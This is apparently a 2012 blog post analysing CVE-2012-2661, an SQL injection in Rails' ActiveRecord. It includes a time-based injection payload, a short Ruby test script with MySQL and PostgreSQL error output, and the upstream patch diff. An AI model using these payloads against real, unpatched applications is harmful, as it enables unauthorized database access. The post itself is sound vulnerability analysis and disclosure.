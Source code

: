 ```yaml
---
layout: post
title: "CVE-2012-2661: SqlInjection on Rails"
date: 2012-06-04 08:22
comments: true
published: true
featured: false
categories: breakers sql-injection rails ruby-on-rails activerecord cve-2012-2661 ruby patch orm mysql postgresql
excerpt: A SQL Injection was discovered in ActiveRecord Rails' default ORM framework. Let's talk about the vulnerability, the patch and other mitigation stuff.
hn: http://news.ycombinator.com/item?id=4078786
rd: http://redd.it/uppb6
---
```


SQL Injection is the most dangerous risk a web application is exposed to. If an
input is not fully sanitized before used to build a SQL query it is possible to
subvert the query itself injecting pieces of arbitrary SQL code.

Results can vary from unauthorized data access to system compromize.

<!-- more -->

ActiveRecord is the default [ORM](http://en.wikipedia.org/wiki/Object-relational_mapping) for
[Rails](http://ruby-on-rails.org) web application framework and it suffered
from a SQL Injection form patched last [31 May](https://groups.google.com/group/rubyonrails-security/browse_thread/thread/7546a238e1962f59?pli=1).


## The attack

You're using an
[ActiveRecport](https://github.com/rails/rails/tree/master/activerecord) object
and you're taking something from the view layer passing to your model fetching
data.

When you try to pass an [Hash](http://www.ruby-doc.org/core/Hash.html) object
as field to _where_ method as example, injecting some SQL code into it,
ActiveRecord fails to build the SQL Query and the injection occurs as explained
in this [blog post](http://blog.pentesterlab.com/2012/06/cve-2012-2661-exploitation-write-up.html).

``` ruby the string exploiting CVE-2012-2661
User.where(:password => {'test where (select 0) or sleep(1); -- .user' => {'id' => '1234'}}).all
``` 

### Mysql

It seems that all the stuff before the leading '.' in the Hash key value is
taken and injected as _WHERE_ clause in a SHOW TABLE statement when used with
MySQL as backend RDBMS.

``` ruby A very lame boilerplate exploiting attempt 
#!/usr/bin/env ruby
require 'active_record'
ActiveRecord::Base.establish_connection(
      :adapter  => "mysql2",
      :host     => "localhost",
      :username => "thesp0nge",
      :password => "",
      :database => "test"
    )


class User < ActiveRecord::Base
end

puts "MySQL2"

begin
User.where(:password => {'test where (select 0) or sleep(1); -- .user' => {'id' => '1234'}}).all
rescue Exception => e
  puts e.message
end
``` 

This code resulted in the following error printed with some delay telling the
sleep() has been called:

``` 
$ ./cve_2012_2661.rb
MySQL2
Mysql2::Error: Unknown column 'test where (select 0) or sleep(1); -- .user.id' in 'where clause': SELECT `users`.* FROM `users`  WHERE `test where (select 0) or sleep(1); -- `.`user`.`id` = '1234'
```

Executing this code mangling the database name, test, with something the user
thesp0nge is not allowed to access, let's say the mysql database, output error
indicates where the injection really occurs:

```
$ ./cve_2012_2661.rb
MySQL2
Mysql2::Error: Access denied for user ''@'localhost' to database 'mysql': SHOW TABLES IN mysql where (select 0) or sleep(1); --  LIKE 'user'
```

From the error message it seems either that ActiveRecord didn't try to
authenticate with user thesp0nge, leaving the field value empty. I tried a bit
to exploit either the attack vector in order to put an arbitrary value as
connection username but I failed, maybe I'll return on this another time.

### PostgreSQL

The same attack vector applied on a postgresql driven database connection
resulted in a completely different error message:

``` 
$ ./cve_2012_2661.rb
PostgreSQL
PG::Error: ERROR:  schema "test where (select 0) or sleep(1) ; -- " does not exist
: SELECT "users".* FROM "users"  WHERE "test where (select 0) or sleep(1) ; -- "."user"."id" = '1234'
``` 

Using another RDBMS it seems that attack payload was injected straight forward
in the WHERE clause for the SELECT statement.

Crafting more the attack payload I found something intersting, the error
message changed significantly. Fetching the users removing the dot from the
hash key value, resulted the adapter to think the key was a table name.

```
User.where(:password => {'1=0 or sleep(1); -- user' => {'id' => '1234'}}).all
``` 

``` 
 ./cvs_2012_2661.rb
PostgreSQL
PG::Error: ERROR:  missing FROM-clause entry for table "1=0 or sleep(1); -- user"
LINE 1: SELECT "users".* FROM "users"  WHERE "1=0 or sleep(1); -- us...
                                             ^
: SELECT "users".* FROM "users"  WHERE "1=0 or sleep(1); -- user"."id" = '1234'
``` 

However it seems that PostgreSQL adapter was smart enough to double any _"_
character so I was not able to close the _WHERE_ part of the SELECT.  

## The patch

[Aaron Patterson](http://twitter.com/tenderlove) submitted a patch for Rails
3.0, 3.1 and 3.2 latest Friday. Files involved in the patch are not the
adapters but the code building the SQL predicate from the Hash object.

``` ruby the patch for rails 3.2
From 71f7917c553cdc9a0ee49e87af0efb7429759718 Mon Sep 17 00:00:00 2001
From: Aaron Patterson <aaron.patterson@gmail.com>
Date: Wed, 30 May 2012 15:04:11 -0700
Subject: [PATCH] predicate builder should not recurse for determining where
 columns. Thanks to Ben Murphy for reporting this

CVE-2012-2661
---
 .../associations/association_scope.rb              |   17 ++++++++++++++++-
 .../active_record/relation/predicate_builder.rb    |    6 +++---
 activerecord/test/cases/relation/where_test.rb     |   19 +++++++++++++++++++
 3 files changed, 38 insertions(+), 4 deletions(-)
 create mode 100644 activerecord/test/cases/relation/where_test.rb

diff --git a/activerecord/lib/active_record/associations/association_scope.rb b/activerecord/lib/active_record/associations/association_scope.rb
index b3819e3..f9cffa4 100644
--- a/activerecord/lib/active_record/associations/association_scope.rb
+++ b/activerecord/lib/active_record/associations/association_scope.rb
@@ -75,7 +75,7 @@ module ActiveRecord
 
             conditions.each do |condition|
               if options[:through] && condition.is_a?(Hash)
-                condition = { table.name => condition }
+                condition = disambiguate_condition(table, condition)
               end
 
               scope = scope.where(interpolate(condition))
@@ -114,6 +114,21 @@ module ActiveRecord
         end
       end
 
+      def disambiguate_condition(table, condition)
+        if condition.is_a?(Hash)
+          Hash[
+            condition.map do |k, v|
+              if v.is_a?(Hash)
+                [k, v]
+              else
+                [table.table_alias || table.name, { k => v }]
+              end
+            end
+          ]
+        else
+          condition
+        end
+      end
     end
   end
 end
diff --git a/activerecord/lib/active_record/relation/predicate_builder.rb b/activerecord/lib/active_record/relation/predicate_builder.rb
index a789f48..9c84d8a 100644
--- a/activerecord/lib/active_record/relation/predicate_builder.rb
+++ b/activerecord/lib/active_record/relation/predicate_builder.rb
@@ -1,16 +1,16 @@
 module ActiveRecord
   class PredicateBuilder # :nodoc:
-    def self.build_from_hash(engine, attributes, default_table)
+    def self.build_from_hash(engine, attributes, default_table, check_column = true)
       predicates = attributes.map do |column, value|
         table = default_table
 
         if value.is_a?(Hash)
           table = Arel::Table.new(column, engine)
-          build_from_hash(engine, value, table)
+          build_from_hash(engine, value, table, false)
         else
           column = column.to_s
 
-          if column.include?('.')
+          if check_column && column.include?('.')
             table_name, column = column.split('.', 2)
             table = Arel::Table.new(table_name, engine)
           end
diff --git a/activerecord/test/cases/relation/where_test.rb b/activerecord/test/cases/relation/where_test.rb
new file mode 100644
index 0000000..90c690e
--- /dev/null
+++ b/activerecord/test/cases/relation/where_test.rb
@@ -0,0 +1,19 @@
+require "cases/helper"
+require 'models/post'
+
+module ActiveRecord
+  class WhereTest < ActiveRecord::TestCase
+    fixtures :posts
+
+    def test_where_error
+      assert_raises(ActiveRecord::StatementInvalid) do
+        Post.where(:id => { 'posts.author_id' => 10 }).first
+      end
+    end
+
+    def test_where_with_table_name
+      post = Post.first
+      assert_equal post, Post.where(:posts => { 'id' => post.id }).first
+    end
+  end
+end
-- 
1.7.5.4
``` 

## Some thoughts

The real problem I see here is that patch is a real quick and dirty fix to
mitigate this, that doesn't mean a positive approach has been done to make the
ActiveRecord::Base a safe place to be.

I don't even know if a real and dangerous exploit can be written for this
injection but I do think a sort of input validation must be applied in a more
structured way, maybe using [Owasp Esapi for Ruby](https://github.com/thesp0nge/owasp-esapi-ruby).

However Rails is still one of my web framework of choice with great hackers
working on it.

It's interesting now, looking how other ORMs react to unsolicited parameters.
